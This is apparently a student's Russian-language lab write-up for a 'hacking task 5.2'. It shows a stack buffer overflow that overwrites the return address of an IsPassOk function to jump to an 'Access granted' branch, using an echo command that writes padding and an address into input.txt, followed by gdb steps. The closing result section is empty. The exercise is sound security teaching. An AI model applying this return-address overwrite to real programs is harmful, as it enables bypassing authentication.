



# Решение задачи про взлом (5.2)

**1. Узнаем адрес возврата, сохраненный в ф-ии IsPassOk, который нужно перезаписать:**

**2. Узнаем адрес строки "Access granted":**

**3. Запишем необходимое кол-во байт в файл input.txt:**

`` `echo -ne "12345678901234567890\xd8\x11\x40\00" > input.txt` ``

Пояснение: 20 байт = массив символов + сохр. rbp.

**4. Запуск программы:**

<pre> 
(gdb) b 30 
Breakpoint 1 at 0x4011fa: file task5.2.c, line 31. 
(gdb) r < input.txt  </pre>

**Результат:**

